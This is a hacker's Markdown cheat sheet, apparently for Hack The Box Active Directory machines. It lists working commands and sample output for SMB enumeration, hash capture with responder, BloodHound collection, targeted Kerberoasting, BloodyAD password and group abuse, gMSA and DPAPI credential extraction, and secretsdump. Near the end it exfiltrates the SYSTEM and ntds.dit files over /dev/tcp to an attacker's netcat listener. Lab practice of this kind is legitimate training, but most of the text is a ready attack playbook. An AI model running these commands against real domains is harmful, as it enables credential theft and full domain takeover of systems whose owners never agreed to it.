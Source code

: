 I made this to work 10x faster on  [Active Directory](../../3%20-%20Tags/Hacking%20Concepts/Active%20Directory.md) boxes.
## Interesting ports from scan

```bash
53: DNS Most of the time not the way in, maybe enum   
88: Kerberos - Maybe Kerbrute but not much to go into
135/139/445: 'SMB'  Always interesting !!
3389: RDP  Always stands out, worth checking
```

Add domain name from nmap to `/etc/hosts`
## Ticket Requests

If gives you password but don't work:
```bash
└─$ impacket-getTGT machine.htb/'user,name':'passwd'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in user.name.ccache

$ export KRB5CCNAME=/home/mdn0x/HTB/Machines/Machine/user/tickets/user.name.ccache   # IMPORTANT

$ nxc ldap machine.htb -u user.name -p passwd -k
LDAP        machine.htb      389    DC               [*] None (name:DC) (domain:machine.htb)
LDAP        machine.htb      389    DC               [+] machine.htb\user.name:passwd  
```

Now collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md).
## SMB (135,139,445) Enumeration

Can i find creds, write, steal with links?

Anonymous access? `netexec` or [SMBclient](../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) or [SMBmap](../../3%20-%20Tags/Hacking%20Tools/SMBmap.md) 

```bash
smbclient -L \\\\domain.name\\

smbclient -L \\\\domain.name\\ -U user # If you have creds
```

OR
```bash
netexec smb dc.domain.htb -u user.name -p 'passwd' -k --shares --smb-timeout 500   # -k is for ticket usage

impacket-smbclient -k dc.machine.htb # To connect usage: shares, use share, ls, cd, get  
```

if list the shares then yes. Can connect?

```bash
smbclient \\\\domain.name\\Share # -U user -p passwd
```

If can write steal creds with `responder`

To steal use https://github.com/overgrowncarrot1/SMBKiller

```bash
python3 SMB_Killer.py -r Victim_IP -l MY_IP -d domain.name -i tun0 -a Share -U 'blankforanon' -p passwd?    
```

The tool starts an automatic responder instance to capture the hashes.

Crack with [JohnTheRipper](../../3%20-%20Tags/Hacking%20Tools/JohnTheRipper.md) or [Hashcat](../../3%20-%20Tags/Hacking%20Tools/Hashcat.md)

Verify user:

```bash
nxc smb domain.name -u 'user.name' -p 'passwd' --shares
```

## Bloodhound

Collect with [Bloodhound](../../3%20-%20Tags/Hacking%20Tools/Bloodhound.md):

```bash
 bloodhound-python -u 'user' -p 'passwd' -d domain.htb -ns 10.10.11.xx -c All --zip # -p or --hashes
```

Checks
```bash
'OUTBOUND OBJECT CONTROL'
'GROUPS' # like RemoteManager (WinRM)
```

Stands out
```bash
GenericAll: changepasswd and ownaccount # You can do everything with GA - BloodyAD
WriteSPN: can create a fake `SPN` of `user2` and get and hash to crack ## TargetedKerberoast tool
AddSelf: Add user to group # BloodyAD tool
ReadGMSAPassword: Reads any gMSA password blobs the user can access # GMSADumper tool
ForceChangePassword: modify directly # BloodyAD
WriteOwner: Change password # Impacket-owneredit then BloodyAD
```

## Evil-WinRM

```bash
evil-winrm -u 'user.name' -p 'passwd' -i dc.machine.htb # -H for hashes

evil-winrm -i dc.domain.htb -k userticket.ccache -r REALM.htb  # with ticket auth, add REALM in krb5 config if needed
```

## TargetedKerberoast


**WriteSPN**
```bash
┌──(.venv)─(mdn0x㉿mdn0xKali)
└─$ python3 targetedKerberoast.py -v -d domain.htb -u user -p 'passwd'
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[VERBOSE] SPN added successfully for (user2)
[+] Printing hash for (user2)
$krb5tgs$23$*user2$DOMAIN.HTB$machine.htb/User2*$0e83983aba480c3219b96987f20b128e$f66d93f0d55de1da3610267d601fe46a3eed827e3348ff764eca454ff3067429352018f988e71b0bca4636df36765f69664d77acdd4080b34d70ead2abbd2f52bb82054cd69f7f75475ee9beb93b06d036d6b24c8ace08ce04aac9cba49a6b8311fa66eb35ed80222cd23fc328ba489d2d9e83c47f9d0d1982b<SNIP>
[VERBOSE] SPN removed successfully for (Alfred)
```

## BloodyAD

**AddSelf**
```bash
┌──(mdn0x㉿mdn0xKali)
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u user -p 'passwd' add groupMember GROUP alfred
[+] user added to GROUP
```


**ForceChangePassword - GenericAll**
```bash
└─$ bloodyAD --host '10.10.11.xx' -d 'domain.htb' -u 'user' -p 'passwd' set password USER2 'Hacker123!' # hash with -p also
[+] Password changed successfully!
```

## GMSADumper

**ReadGMSAPasswords**
```bash
└─$ python gMSADumper.py -u user -p passwd -d domain.htb 
```

This give you an usable hash like this`:4f46405647993c7d4e1dc1c25dd6ecf4` 
## Write Owner

First we use `impacket-owneredit` to make `USER` owner of `USER2`:

```bash
└─$ impacket-owneredit -action write -target 'user2' -new-owner 'user' 'machine.htb/user':'Hacker123!' -dc-ip 10.10.11.xx
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Current owner information below
[*] - SID: S-1-5-21-1392491010-1358638721-2126982587-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=DCname,DC=htb
[*] OwnerSid modified successfully!
```

Now we can change his password with `bloodyAD`. First add `GenericAll`:

```bash
─$ bloodyAD --host 10.10.11.xx -d machine.htb -u 'user' -p 'Hacker123!' add genericAll user2 user
[+] user has now GenericAll on user2
```

Now change password.

## DPAPI

If you can find `dpapi` encrypted data and keys:

``` bash
- get /../../../AppData/Roaming/Microsoft/Protect/S-1-5-21-3927696377-1337352550-2781715495-1110/08949382-134f-4c63-b93c-ce52efc0aa88

- get /../../../AppData/Roaming/Microsoft/Credentials/772275FAD58525253490A9B0039791D3
```
### Cracking

crack the key:
```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password Password
```

Crack creds
```bash
impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key keyfrommasterkey
```

## Secrets Dump 

If you can find the `SYSTEM` and `NTDS` files grab them, possibly with a listener:

```bash
$ nc -lvnp 4444 > SYSTEM

cat SYSTEM  > /dev/tcp/10.10.xx.xx/4444 # on Target

$ nc -lvnp 4444 > ntds.dit

cat ntds.dit > /dev/tcp/10.10.xx.xx/4444 # on Target
```
### Cracking

Use `Impacket` function to crack the hashes:

```bash
$ impacket-secretsdump -ntds ntds.dit -system SYSTEM local 
```

Request a ticket then use [Evil-WinRM](../../3%20-%20Tags/Hacking%20Tools/Evil-WinRM.md) with `-k` flag.